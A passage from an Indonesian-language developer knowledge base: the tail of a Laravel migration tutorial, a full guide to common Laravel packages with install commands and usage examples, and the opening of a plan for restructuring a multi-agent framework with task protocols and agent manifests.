Ini skenario nyata: kamu punya tabel `users` default Laravel yang punya kolom `email`, dan sekarang mau:
- ✅ Tambah kolom `phone`
- ❌ Hapus kolom `email` dan `email_verified_at`

### Langkah 1 — Buat migration untuk tambah `phone`

```bash
php artisan make:migration add_phone_to_users_table
```

```php
public function up(): void
{
    Schema::table('users', function (Blueprint $table) {
        $table->string('phone', 20)->nullable()->unique()->after('name');
    });
}

public function down(): void
{
    Schema::table('users', function (Blueprint $table) {
        $table->dropColumn('phone');
    });
}
```

### Langkah 2 — Buat migration untuk hapus `email`

```bash
php artisan make:migration remove_email_from_users_table
```

```php
public function up(): void
{
    Schema::table('users', function (Blueprint $table) {
        // Drop unique index email dulu sebelum drop kolom
        $table->dropUnique(['email']);
        $table->dropColumn(['email', 'email_verified_at']);
    });
}

public function down(): void
{
    Schema::table('users', function (Blueprint $table) {
        $table->string('email')->unique()->after('name');
        $table->timestamp('email_verified_at')->nullable()->after('email');
    });
}
```

### Langkah 3 — Update Model `User.php`

Setelah migration, update `$fillable` di Model:

```php
protected $fillable = [
    'name',
    'phone',     // ✅ tambah
    'password',
    // 'email',  // ❌ hapus
];
```

Kalau pakai `$hidden`:

```php
protected $hidden = [
    'password',
    'remember_token',
    // 'email', // ❌ hapus dari hidden juga kalau ada
];
```

### Langkah 4 — Update Seeder (kalau ada)

```php
User::create([
    'name'     => 'Admin',
    'phone'    => '08123456789',   // ✅ pakai phone
    'password' => bcrypt('secret'),
    // 'email' => tidak perlu lagi
]);
```

### Langkah 5 — Jalankan

```bash
php artisan migrate
```

---

## 10. Aturan Penamaan

| Yang dibuat | Format | Contoh |
|---|---|---|
| File migration buat tabel | `create_{nama_tabel}_table` | `create_products_table` |
| File migration tambah kolom | `add_{kolom}_to_{tabel}_table` | `add_phone_to_users_table` |
| File migration hapus kolom | `remove_{kolom}_from_{tabel}_table` | `remove_email_from_users_table` |
| File migration ubah kolom | `change_{kolom}_in_{tabel}_table` | `change_price_in_products_table` |
| File migration rename kolom | `rename_{lama}_to_{baru}_in_{tabel}_table` | `rename_phone_number_to_phone_in_users_table` |
| Nama tabel di database | `snake_case`, plural | `user_profiles`, `order_items` |
| Nama kolom | `snake_case` | `created_at`, `phone_number` |
| Nama Model | `PascalCase`, singular | `UserProfile`, `OrderItem` |
| Nama Seeder | `{Model}Seeder` | `UserSeeder`, `ProductSeeder` |
| Nama Factory | `{Model}Factory` | `UserFactory`, `ProductFactory` |

---

> 📌 **Ingat selalu:** Database migration adalah *sejarah* perubahan skema. Jangan hapus, jangan edit yang lama — cukup tambah yang baru.

---

*Dokumen ini bagian dari NEXUS Rules — TALL Stack Standards*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, vcs]

### 📘 KNOWLEDGE: NEXUS_LARAVEL_DEPENDENCIES_GUIDE.MD

# 📦 Laravel Dependencies & Packages — Panduan Lengkap
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> Referensi semua package Laravel yang umum dipakai — dari UI framework, auth,
> role & permission, media, sampai utility. Lengkap dengan kegunaan, install command,
> dan kapan harus pakai / tidak pakai.
>
> **Berlaku untuk: Laravel 10+ / Laravel 12 (TALL Stack)**

---

## 📋 Daftar Isi

1. [UI & Component Framework](#1-ui--component-framework)
2. [Authentication & Authorization](#2-authentication--authorization)
3. [Admin Panel](#3-admin-panel)
4. [Role & Permission](#4-role--permission)
5. [Media & File Management](#5-media--file-management)
6. [Activity Log & Audit Trail](#6-activity-log--audit-trail)
7. [Settings & Configuration](#7-settings--configuration)
8. [SEO & Metadata](#8-seo--metadata)
9. [Image Processing](#9-image-processing)
10. [PDF & Export](#10-pdf--export)
11. [Notification & Email](#11-notification--email)
12. [API & Utility](#12-api--utility)
13. [Testing](#13-testing)
14. [Development Tools](#14-development-tools)
15. [Tabel Perbandingan Cepat](#15-tabel-perbandingan-cepat)
16. [Stack Rekomendasi per Jenis Project](#16-stack-rekomendasi-per-jenis-project)

---

## 1. UI & Component Framework

---

### 🔵 Livewire

| Detail | Info |
|---|---|
| **Package** | `livewire/livewire` |
| **Versi Stabil** | v3.x |
| **Dibuat oleh** | Caleb Porzio |

**Kegunaan:**
Framework full-stack untuk membangun UI interaktif di Laravel tanpa menulis JavaScript. Komponen PHP yang bereaksi seperti JavaScript — form realtime, live search, counter, wizard step, modal, dan sebagainya.

**Install:**
```bash
composer require livewire/livewire
```

**Buat komponen:**
```bash
php artisan make:livewire NamaKomponen
```

**Kapan pakai:**
- App internal, dashboard, CRUD yang butuh interaktivitas tanpa SPA penuh
- Tim yang kuat PHP tapi tidak terlalu dalam JS
- Cocok dikombinasi dengan Alpine.js untuk UI ringan

**Kapan TIDAK pakai:**
- Butuh realtime ekstrem (chat live, collaborative editing) — pertimbangkan WebSocket
- App yang sangat berat di sisi client

---

### 🟡 Alpine.js

| Detail | Info |
|---|---|
| **Package** | CDN / via npm: `alpinejs` |
| **Versi Stabil** | v3.x |
| **Dibuat oleh** | Caleb Porzio |

**Kegunaan:**
JavaScript minimal (disebut "Tailwind-nya JavaScript") untuk interaksi UI ringan: toggle, dropdown, modal, tab, accordion — langsung di HTML attribute. Tidak butuh build step kalau pakai CDN.

**Install via npm:**
```bash
npm install alpinejs
```

**Via CDN (taruh di layout blade):**
```html
<script defer src="https://cdn.jsdelivr.net/npm/alpinejs@3.x.x/dist/cdn.min.js"></script>
```

**Kapan pakai:**
- Semua project TALL Stack — Alpine adalah bagian dari stack
- Interaksi sederhana yang tidak perlu full Vue/React

---

### 🔵 Inertia.js

| Detail | Info |
|---|---|
| **Package** | `inertiajs/inertia-laravel` |
| **Frontend** | React / Vue / Svelte |

**Kegunaan:**
Jembatan antara Laravel backend dan React/Vue frontend — tanpa REST API terpisah. Routing tetap di Laravel, tapi view di-render oleh React/Vue. Disebut "the modern monolith".

**Install:**
```bash
composer require inertiajs/inertia-laravel
npm install @inertiajs/react  # atau @inertiajs/vue3
```

**Kapan pakai:**
- Tim yang sudah familiar React/Vue tapi tidak mau buat API terpisah
- App yang butuh UX SPA penuh tapi tetap pakai Laravel routing

**Kapan TIDAK pakai:**
- Project yang sudah pakai Livewire — pilih salah satu, jangan campur tanpa alasan kuat

---

### 🟠 Tailwind CSS

| Detail | Info |
|---|---|
| **Package** | `npm install tailwindcss` |
| **Versi Stabil** | v4.x |

**Kegunaan:**
Utility-first CSS framework. Tidak ada class `.btn-primary` yang pre-defined — semua dibangun dari utility class seperti `flex`, `p-4`, `text-lg`, `bg-blue-500`.

**Install:**
```bash
npm install tailwindcss @tailwindcss/vite
```

**Kapan pakai:**
- Semua project TALL Stack — Tailwind adalah bagian dari stack
- Custom design yang tidak mau terikat Bootstrap/Bulma

---

---

## 2. Authentication & Authorization

---

### 🟢 Laravel Breeze

| Detail | Info |
|---|---|
| **Package** | `laravel/breeze` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
Starter kit auth yang **minimal dan ringan** — login, register, forgot password, email verification. Stack pilihan: Blade, Livewire, React (Inertia), Vue (Inertia), atau API-only.

**Install:**
```bash
composer require laravel/breeze --dev
php artisan breeze:install

# Pilih stack:
# blade | livewire | react | vue | api
php artisan breeze:install livewire

php artisan migrate
npm install && npm run dev
```

**Kapan pakai:**
- Project baru yang butuh auth sederhana dan bisa dikustomisasi bebas
- Titik awal yang bersih, tidak banyak bloat

---

### 🔴 Laravel Jetstream

| Detail | Info |
|---|---|
| **Package** | `laravel/jetstream` |
| **Dibuat oleh** | Laravel Official |
| **Stack** | Livewire atau Inertia (Vue) |

**Kegunaan:**
Starter kit auth yang **lengkap dan fitur-rich** — login, register, 2FA, session management, profile photo, API token (Sanctum), dan **team management** (opsional).

**Install:**
```bash
composer require laravel/jetstream
php artisan jetstream:install livewire   # atau: inertia

# Dengan fitur teams:
php artisan jetstream:install livewire --teams

php artisan migrate
npm install && npm run dev
```

**Fitur bawaan Jetstream:**
- ✅ Login / Register / Forgot Password
- ✅ Email Verification
- ✅ Two-Factor Authentication (2FA)
- ✅ Session Management (lihat semua device aktif)
- ✅ Profile Management + Upload Foto
- ✅ API Token via Laravel Sanctum
- ✅ Team Management (opsional)

**Kapan pakai:**
- SaaS app, project yang butuh 2FA, multi-user dengan teams
- Tidak mau setup auth dari awal

**Kapan TIDAK pakai:**
- App sederhana — terlalu berat, banyak file yang tidak dipakai
- Lebih baik pakai Breeze kalau tidak butuh semua fitur ini

---

### 🟣 Laravel Sanctum

| Detail | Info |
|---|---|
| **Package** | `laravel/sanctum` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
Autentikasi ringan untuk SPA (Single Page Application) dan API. Bisa issue API token sederhana tanpa OAuth penuh. Jetstream sudah include Sanctum.

**Install:**
```bash
composer require laravel/sanctum
php artisan vendor:publish --provider="Laravel\Sanctum\SanctumServiceProvider"
php artisan migrate
```

**Kapan pakai:**
- REST API yang dikonsumsi mobile app atau frontend SPA
- Token-based auth yang sederhana

---

### 🔵 Laravel Passport

| Detail | Info |
|---|---|
| **Package** | `laravel/passport` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
OAuth 2.0 server penuh untuk Laravel. Bisa buat authorization server sendiri dengan grant types: Authorization Code, Client Credentials, Password Grant, Implicit, Refresh Token.

**Install:**
```bash
composer require laravel/passport
php artisan passport:install
```

**Kapan pakai:**
- Platform yang butuh OAuth 2.0 standar — misalnya third-party app perlu akses API user-mu
- Enterprise, marketplace, ekosistem yang punya banyak client

**Kapan TIDAK pakai:**
- App internal biasa — terlalu overkill, pakai Sanctum saja

---

---

## 3. Admin Panel

---

### 🟠 Filament

| Detail | Info |
|---|---|
| **Package** | `filament/filament` |
| **Versi Stabil** | v3.x |
| **Dibuat oleh** | Dan Harrin & Community |

**Kegunaan:**
Admin panel lengkap berbasis TALL Stack (Tailwind + Alpine + Livewire) — bisa generate CRUD resource, form builder, table builder, widget dashboard, dan banyak plugin ekosistem. Salah satu admin panel terpopuler di Laravel.

**Install (panel admin):**
```bash
composer require filament/filament:"^3.2" -W
php artisan filament:install --panels
php artisan make:filament-user
```

**Buat Resource (CRUD otomatis):**
```bash
php artisan make:filament-resource Product --generate
```

**Komponen utama Filament:**
| Komponen | Kegunaan |
|---|---|
| **Resource** | CRUD otomatis untuk 1 model |
| **Page** | Halaman custom (dashboard, settings) |
| **Widget** | Widget statistik di dashboard |
| **Form Builder** | Form component (TextInput, Select, FileUpload, dll) |
| **Table Builder** | Tabel dengan filter, sort, bulk action |
| **Action** | Tombol + modal (confirm, form, redirect) |
| **Notification** | Toast notification |
| **Infolist** | Detail view read-only |

**Plugin populer Filament:**
```bash
# Shield — Role & Permission terintegrasi Filament
composer require bezhansalleh/filament-shield

# Excel Export
composer require pxlrbt/filament-excel

# Activity Log
composer require z3d0x/filament-logger
```

**Kapan pakai:**
- Admin panel untuk client / internal tim
- Butuh CRUD cepat tanpa banyak custom code
- Dashboard dengan statistik dan widget

---

### 🟡 Nova (Laravel Official)

| Detail | Info |
|---|---|
| **Package** | `laravel/nova` |
| **Harga** | **Berbayar** ($199/project atau $299 unlimited) |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
Admin panel resmi dari Laravel team. Lebih "official" dari Filament, desain lebih premium, tapi berbayar.

**Kapan pakai:**
- Budget ada, mau admin panel dengan support resmi Laravel
- Tim yang lebih nyaman dengan ekosistem official

**Kapan TIDAK pakai:**
- Budget terbatas — Filament gratis dan fiturnya tidak kalah jauh

---

---

## 4. Role & Permission

---

### 🟣 Spatie Laravel Permission

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-permission` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Role & permission management untuk Laravel. Bisa assign role ke user, bisa assign permission ke role atau langsung ke user. Terintegrasi dengan gate/policy Laravel.

**Install:**
```bash
composer require spatie/laravel-permission
php artisan vendor:publish --provider="Spatie\Permission\PermissionServiceProvider"
php artisan migrate
```

**Setup Model User:**
```php
use Spatie\Permission\Traits\HasRoles;

class User extends Authenticatable
{
    use HasRoles;
}
```

**Penggunaan dasar:**
```php
// Buat role & permission
Role::create(['name' => 'admin']);
Permission::create(['name' => 'edit posts']);

// Assign ke user
$user->assignRole('admin');
$user->givePermissionTo('edit posts');

// Cek di blade
@role('admin') ... @endrole
@can('edit posts') ... @endcan

// Cek di controller
$user->hasRole('admin');
$user->can('edit posts');
```

**Kapan pakai:**
- Hampir semua project yang punya lebih dari 1 tipe user
- Admin panel, SaaS, dashboard multi-role

---

---

## 5. Media & File Management

---

### 🟢 Spatie Laravel Media Library

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-medialibrary` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Manajemen file/media yang powerful — upload file, attach ke model Eloquent, konversi otomatis (resize, crop, watermark), support disk (local, S3, R2, dll).

**Install:**
```bash
composer require spatie/laravel-medialibrary
php artisan vendor:publish --provider="Spatie\MediaLibrary\MediaLibraryServiceProvider" --tag="medialibrary-migrations"
php artisan migrate
```

**Setup Model:**
```php
use Spatie\MediaLibrary\HasMedia;
use Spatie\MediaLibrary\InteractsWithMedia;

class Product extends Model implements HasMedia
{
    use InteractsWithMedia;

    public function registerMediaCollections(): void
    {
        $this->addMediaCollection('images');
        $this->addMediaCollection('documents')->singleFile();
    }
}
```

**Penggunaan:**
```php
// Upload
$product->addMedia($request->file('image'))->toMediaCollection('images');

// Ambil
$product->getFirstMediaUrl('images');
$product->getMedia('images');
```

**Kapan pakai:**
- Project yang punya banyak upload file (foto produk, dokumen, avatar)
- Butuh resize/konversi otomatis
- Mau file terorganisir per model

---

### 🔵 Intervention Image

| Detail | Info |
|---|---|
| **Package** | `intervention/image` |
| **Versi** | v3.x |

**Kegunaan:**
Manipulasi gambar — resize, crop, rotate, filter, watermark, convert format. Biasanya dipakai bersamaan dengan Media Library untuk konversi otomatis.

**Install:**
```bash
composer require intervention/image
```

**Penggunaan:**
```php
use Intervention\Image\ImageManager;
use Intervention\Image\Drivers\Gd\Driver;

$manager = new ImageManager(new Driver());
$image = $manager->read('foto.jpg');
$image->resize(300, 200)->save('thumb.jpg');
```

---

---

## 6. Activity Log & Audit Trail

---

### 📋 Spatie Laravel Activity Log

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-activitylog` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Mencatat semua aktivitas user di aplikasi — siapa yang create/update/delete model apa, kapan, dan apa yang berubah (before/after). Essential untuk audit trail.

**Install:**
```bash
composer require spatie/laravel-activitylog
php artisan vendor:publish --provider="Spatie\Activitylog\ActivitylogServiceProvider" --tag="activitylog-migrations"
php artisan migrate
```

**Setup Model (auto log):**
```php
use Spatie\Activitylog\Traits\LogsActivity;
use Spatie\Activitylog\LogOptions;

class Product extends Model
{
    use LogsActivity;

    public function getActivitylogOptions(): LogOptions
    {
        return LogOptions::defaults()
            ->logOnly(['name', 'price', 'is_active'])  // kolom yang dicatat
            ->logOnlyDirty();                           // hanya yang berubah
    }
}
```

**Log manual:**
```php
activity()
    ->causedBy($user)
    ->performedOn($product)
    ->log('updated price');
```

---

---

## 7. Settings & Configuration

---

### ⚙️ Spatie Laravel Settings

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-settings` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Menyimpan settings aplikasi di database (bukan `.env`), dengan type-safety. Cocok untuk settings yang bisa diubah via admin panel — nama app, SMTP, toggle fitur, dll.

**Install:**
```bash
composer require spatie/laravel-settings
php artisan vendor:publish --provider="Spatie\LaravelSettings\LaravelSettingsServiceProvider" --tag="migrations"
php artisan migrate
```

**Buat Settings Class:**
```php
// php artisan make:settings GeneralSettings
use Spatie\LaravelSettings\Settings;

class GeneralSettings extends Settings
{
    public string $site_name;
    public string $site_tagline;
    public bool   $maintenance_mode;

    public static function group(): string
    {
        return 'general';
    }
}
```

**Pakai di mana saja:**
```php
$settings = app(GeneralSettings::class);
echo $settings->site_name;

$settings->site_name = 'Nama Baru';
$settings->save();
```

---

---

## 8. SEO & Metadata

---

### 🔍 Spatie Laravel Sitemap

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-sitemap` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Generate sitemap XML otomatis dari route/model Laravel. Support multi-sitemap, image sitemap, news sitemap.

**Install:**
```bash
composer require spatie/laravel-sitemap
```

**Generate sitemap:**
```php
use Spatie\Sitemap\Sitemap;
use Spatie\Sitemap\Tags\Url;

Sitemap::create()
    ->add(Url::create('/'))
    ->add(Url::create('/about'))
    ->add(Post::all())   // kalau model implement toSitemapTag()
    ->writeToFile(public_path('sitemap.xml'));
```

---

### 🏷️ RalphJSmit Laravel SEO

| Detail | Info |
|---|---|
| **Package** | `ralphjsmit/laravel-seo` |

**Kegunaan:**
Manajemen meta tag SEO (title, description, OG tags, Twitter card, JSON-LD) per halaman/model. Terintegrasi dengan Filament.

**Install:**
```bash
composer require ralphjsmit/laravel-seo
php artisan vendor:publish --tag="seo-migrations"
php artisan migrate
```

---

---

## 9. Image Processing

---

### 🖼️ Spatie Image

| Detail | Info |
|---|---|
| **Package** | `spatie/image` |
| **Dibuat oleh** | Spatie |

**Kegunaan:**
Manipulasi gambar berbasis Intervention Image tapi dengan API yang lebih bersih dan terintegrasi baik dengan Media Library.

**Install:**
```bash
composer require spatie/image
```

---

---

## 10. PDF & Export

---

### 📄 DomPDF (Laravel Snappy / Barryvdh)

| Detail | Info |
|---|---|
| **Package** | `barryvdh/laravel-dompdf` |
| **Dibuat oleh** | Barry vd. Heuvel |

**Kegunaan:**
Generate PDF dari Blade view. Paling mudah di-setup, tapi kurang baik untuk layout kompleks dengan CSS modern.

**Install:**
```bash
composer require barryvdh/laravel-dompdf
```

**Penggunaan:**
```php
use Barryvdh\DomPDF\Facade\Pdf;

$pdf = Pdf::loadView('pdf.invoice', ['data' => $data]);
return $pdf->download('invoice.pdf');
```

---

### 📊 Maatwebsite Laravel Excel

| Detail | Info |
|---|---|
| **Package** | `maatwebsite/excel` |
| **Dibuat oleh** | Maatwebsite |

**Kegunaan:**
Import & export Excel/CSV dari/ke Laravel. Support collection, query builder, generator untuk data besar, event system.

**Install:**
```bash
composer require maatwebsite/excel
php artisan vendor:publish --provider="Maatwebsite\Excel\ExcelServiceProvider" --tag=config
```

**Export:**
```php
// php artisan make:export UsersExport --model=User
use Maatwebsite\Excel\Facades\Excel;

return Excel::download(new UsersExport, 'users.xlsx');
```

**Import:**
```php
// php artisan make:import UsersImport --model=User
Excel::import(new UsersImport, $request->file('file'));
```

---

---

## 11. Notification & Email

---

### 📧 Laravel Notification Channels

| Detail | Info |
|---|---|
| **Package** | Berbeda per channel |
| **Sumber** | [laravel-notification-channels.com](https://laravel-notification-channels.com) |

**Channel populer:**
```bash
# WhatsApp via Twilio
composer require laravel-notification-channels/twilio

# Telegram
composer require laravel-notification-channels/telegram

# Firebase Push Notification
composer require laravel-notification-channels/fcm

# Slack
composer require laravel-notification-channels/slack
```

---

### 📬 Spatie Laravel Mailcoach

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-mailcoach` |
| **Dibuat oleh** | Spatie |
| **Harga** | Freemium (self-hosted gratis, SaaS berbayar) |

**Kegunaan:**
Email marketing & newsletter platform yang bisa self-hosted di Laravel sendiri. List management, campaign, automation, analytics.

---

---

## 12. API & Utility

---

### 🔄 Laravel Telescope

| Detail | Info |
|---|---|
| **Package** | `laravel/telescope` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
Debug tool untuk development — monitor semua request, query, job, mail, notification, log, exception, dll via UI web. **Hanya untuk development.**

**Install:**
```bash
composer require laravel/telescope --dev
php artisan telescope:install
php artisan migrate
```

---

### 🔎 Laravel Debugbar

| Detail | Info |
|---|---|
| **Package** | `barryvdh/laravel-debugbar` |

**Kegunaan:**
Toolbar debug di browser — query count, query time, views yang diload, binding, dll. Sangat berguna untuk optimasi.

**Install:**
```bash
composer require barryvdh/laravel-debugbar --dev
```

---

### ⚡ Laravel Horizon

| Detail | Info |
|---|---|
| **Package** | `laravel/horizon` |
| **Requirement** | Redis |

**Kegunaan:**
Dashboard monitoring untuk queue/job Laravel yang pakai Redis driver. Lihat job pending, failed, throughput, waktu eksekusi.

**Install:**
```bash
composer require laravel/horizon
php artisan horizon:install
php artisan horizon
```

---

### 🔗 Laravel Socialite

| Detail | Info |
|---|---|
| **Package** | `laravel/socialite` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
OAuth login via provider eksternal — Google, Facebook, GitHub, Twitter, LinkedIn, dll.

**Install:**
```bash
composer require laravel/socialite
# Provider tambahan:
composer require socialiteproviders/google
```

---

### 🌐 Spatie Laravel Translatable

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-translatable` |

**Kegunaan:**
Multi-language support untuk model — simpan terjemahan di kolom JSON, akses dengan `$model->getTranslation('name', 'id')`.

**Install:**
```bash
composer require spatie/laravel-translatable
```

---

### 🔢 Spatie Laravel Query Builder

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-query-builder` |

**Kegunaan:**
Build Eloquent query dari request parameter — filter, sort, include relasi, semua via URL parameter. Sangat berguna untuk REST API.

**Install:**
```bash
composer require spatie/laravel-query-builder
```

**Contoh:**
```php
// GET /users?filter[name]=john&sort=-created_at&include=posts
$users = QueryBuilder::for(User::class)
    ->allowedFilters(['name', 'email'])
    ->allowedSorts(['name', 'created_at'])
    ->allowedIncludes(['posts'])
    ->paginate();
```

---

### 🗂️ Laravel Sluggable (Spatie)

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-sluggable` |

**Kegunaan:**
Auto-generate slug dari field model — `"Judul Artikel Ini"` → `"judul-artikel-ini"`. Support unique slug otomatis.

**Install:**
```bash
composer require spatie/laravel-sluggable
```

---

### 🔐 Spatie Laravel Backup

| Detail | Info |
|---|---|
| **Package** | `spatie/laravel-backup` |

**Kegunaan:**
Backup database + file ke berbagai storage (local, S3, Dropbox, dll). Bisa di-schedule otomatis. Support notifikasi kalau backup gagal.

**Install:**
```bash
composer require spatie/laravel-backup
php artisan vendor:publish --provider="Spatie\Backup\BackupServiceProvider"
```

**Jalankan:**
```bash
php artisan backup:run
php artisan backup:run --only-db   # hanya database
```

---

---

## 13. Testing

---

### 🧪 Pest PHP

| Detail | Info |
|---|---|
| **Package** | `pestphp/pest` |

**Kegunaan:**
Testing framework modern untuk PHP — syntax lebih bersih dari PHPUnit, support plugin (Coverage, Livewire, Faker, Stress, dll). Laravel 11+ sudah default Pest.

**Install:**
```bash
composer require pestphp/pest --dev --with-all-dependencies
php artisan pest:install

# Plugin:
composer require pestphp/pest-plugin-laravel --dev
composer require pestphp/pest-plugin-livewire --dev
```

**Contoh test:**
```php
it('can create a product', function () {
    $response = $this->post('/products', [
        'name'  => 'Test Product',
        'price' => 10000,
    ]);

    $response->assertRedirect('/products');
    $this->assertDatabaseHas('products', ['name' => 'Test Product']);
});
```

---

---

## 14. Development Tools

---

### 🛠️ Laravel IDE Helper

| Detail | Info |
|---|---|
| **Package** | `barryvdh/laravel-ide-helper` |

**Kegunaan:**
Generate file helper untuk IDE (PHPStorm, VS Code) agar autocomplete model, facade, dan method bekerja dengan benar.

**Install:**
```bash
composer require barryvdh/laravel-ide-helper --dev
php artisan ide-helper:generate     # facade
php artisan ide-helper:models       # model
php artisan ide-helper:eloquent     # eloquent builder
```

---

### 🎨 Laravel Pint

| Detail | Info |
|---|---|
| **Package** | `laravel/pint` |
| **Dibuat oleh** | Laravel Official |

**Kegunaan:**
Code style fixer otomatis berbasis PHP-CS-Fixer. Sudah include di Laravel 9+. Jalankan untuk format ulang kode sesuai standar.

**Jalankan:**
```bash
./vendor/bin/pint
./vendor/bin/pint --dirty    # hanya file yang berubah
```

---

---

## 15. Tabel Perbandingan Cepat

| Package | Vendor | Harga | Kegunaan Utama |
|---|---|---|---|
| Livewire | Caleb Porzio | Gratis | UI interaktif tanpa JS |
| Alpine.js | Caleb Porzio | Gratis | Interaksi UI ringan |
| Inertia.js | Jonathan Reinink | Gratis | SPA dengan backend Laravel |
| Tailwind CSS | Tailwind Labs | Gratis | Utility-first CSS |
| Breeze | Laravel | Gratis | Auth starter kit minimal |
| Jetstream | Laravel | Gratis | Auth starter kit lengkap + teams |
| Sanctum | Laravel | Gratis | Auth API / SPA ringan |
| Passport | Laravel | Gratis | OAuth 2.0 server penuh |
| Filament | Dan Harrin | Gratis | Admin panel TALL Stack |
| Nova | Laravel | **Berbayar** | Admin panel official |
| Spatie Permission | Spatie | Gratis | Role & permission |
| Spatie Media Library | Spatie | Gratis | Upload & manajemen file |
| Spatie Activity Log | Spatie | Gratis | Audit trail |
| Spatie Settings | Spatie | Gratis | Settings di database |
| Spatie Backup | Spatie | Gratis | Backup DB & file |
| Spatie Sitemap | Spatie | Gratis | Generate sitemap XML |
| Spatie Query Builder | Spatie | Gratis | Filter/sort API via URL |
| Spatie Sluggable | Spatie | Gratis | Auto-generate slug |
| Spatie Translatable | Spatie | Gratis | Multi-language model |
| Barryvdh DomPDF | Barry vd. Heuvel | Gratis | Generate PDF |
| Maatwebsite Excel | Maatwebsite | Gratis | Import/export Excel |
| Intervention Image | Oliver Vogel | Gratis | Manipulasi gambar |
| Telescope | Laravel | Gratis | Debug tool (dev only) |
| Debugbar | Barry vd. Heuvel | Gratis | Debug toolbar (dev only) |
| Horizon | Laravel | Gratis | Queue dashboard (Redis) |
| Socialite | Laravel | Gratis | OAuth login (Google, dll) |
| Pest PHP | Pest | Gratis | Testing modern |
| Pint | Laravel | Gratis | Code style fixer |
| IDE Helper | Barry vd. Heuvel | Gratis | Autocomplete IDE |

---

## 16. Stack Rekomendasi per Jenis Project

---

### 🏢 Admin Panel / Dashboard Internal

```
Laravel + Filament + Spatie Permission + Spatie Activity Log + Spatie Media Library
```

---

### 🛒 E-Commerce / Toko Online

```
Laravel + Livewire + Alpine.js + Tailwind
+ Spatie Media Library (foto produk)
+ Spatie Permission (admin/customer/staff)
+ Maatwebsite Excel (export order)
+ DomPDF (cetak invoice)
+ Spatie Backup
```

---

### 🔌 REST API (Mobile App / Frontend SPA)

```
Laravel + Sanctum (auth) + Spatie Query Builder
+ Spatie Permission + Spatie Media Library
+ Telescope (dev)
```

---

### 🏗️ SaaS Multi-Tenant

```
Laravel + Jetstream (--teams) + Inertia + Vue/React
+ Spatie Permission + Spatie Settings
+ Horizon (queue) + Spatie Backup
+ Socialite (OAuth login)
```

---

### 📰 Blog / CMS

```
Laravel + Filament (editor) + Livewire (frontend)
+ Spatie Media Library + Spatie Sluggable
+ Spatie Sitemap + Spatie Translatable (kalau multi-bahasa)
```

---

### 🧪 NEXUS AI — Autonomous TALL Stack Generator

```
Laravel + Livewire + Alpine.js + Tailwind (target sandbox)
+ Filament (admin monitoring)
+ Spatie Permission + Spatie Activity Log
+ Spatie Media Library + Pest PHP
```

---

> 📌 **Prinsip pemilihan package:**
> Pilih yang paling minimal untuk kebutuhan yang ada.
> Jangan install yang tidak dipakai — setiap package adalah dependency baru yang harus di-maintain.

---

*Dokumen ini bagian dari NEXUS Rules — TALL Stack Standards*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_MULTI_AGENT_STABILIZATION_PLAN.MD

# NEXUS — Multi-Agent Stabilization Plan
> **VERSION**: v2 | **Last Updated**: 26/05/2026


## Final Output Planning (Loop Scan Result)

> **Target Akhir:** Stable Multi-Agent Framework
> **Bukan:** AGI / Autonomous Intelligence / Self-Evolving System
> **Tanggal Scan:** 2026-05-07

---

## Scan Result Summary

| Area | Status Saat Ini | Gap |
| ---- | -------------- | --- |
| Core Engine (NexusEngine.js) | Ada, berfungsi | Direct invocation, belum Event Bus |
| Contract System | Ada (2 kontrak) | Belum Universal Task Protocol |
| Memory Layer | long_term / short_term | Belum granular (raw/normalized/semantic) |
| Agent Workflows | Folder kosong | Belum ada agent workflow terdefinisi |
| Logging | Tidak ada logs/ folder | Belum observability standard |
| Plugin/Scanner | Ada di agent/tools/ | Belum ada sandbox isolation |
| Orchestration | NexusEngine langsung calls tools | Belum ada event-driven layer |
| Agent Isolation | Mixed (engine = orchestrator + runner) | Belum strict boundary |

---

# PHASE 1 — Agent Contract & Isolation

> **Tujuan:** Setiap agent memiliki boundary yang jelas dan kontrak yang ketat.

## 1.1 Universal Task Protocol

Buat `agent/core/TaskProtocol.js` sebagai standar komunikasi universal:

```json
{
  "task_id": "UUID",
  "agent": "agent_name",
  "priority": "low | normal | high | critical",
  "input": {},
  "context": {},
  "status": "pending | running | done | failed",
  "timestamp": "ISO8601",
  "timeout_ms": 30000
}
```

**File yang perlu dibuat:**
- `agent/core/TaskProtocol.js` — definisi dan validator protokol
- Update semua scanner di `agent/tools/scanners/` untuk menggunakan protokol ini

---

## 1.2 Agent Boundary Enforcement

Setiap agent di `agent/tools/` wajib memiliki manifest:

```json
{
  "name": "cyber-security",
  "responsibility": "Scan keamanan dan autentikasi",
  "allowed_inputs": ["targetPath"],
  "allowed_outputs": ["findings[]"],
  "permissions": ["read_files"],
  "execution_scope": "agent/tools/scanners/",
  "timeout_ms": 30000
}
```

**File yang perlu dibuat:**
- `agent/tools/scanners/manifest.json` — manifest untuk semua scanner
- `agent/tools/manifest.json` — manifest untuk semua tools

---

## 1.3 Agent Role Isolation (Pisahkan NexusEngine)

Saat ini `NexusEngine.js` merangkap: Orchestrator + Runner + Memory + Logging.
Ini melanggar Single Responsibility Principle.

**Pemisahan yang diperlukan:**

```text
agent/core/
├── NexusEngine.js        → HANYA Lifecycle Controller (audit → plan → execute → verify)
├── Orchestrator.js       → Baru: Koordinasi antar agent, routing task
├── Contract.js           → Existing: Kontrak data (perlu diperluas)
├── TaskProtocol.js       → Baru: Universal task schema & validator
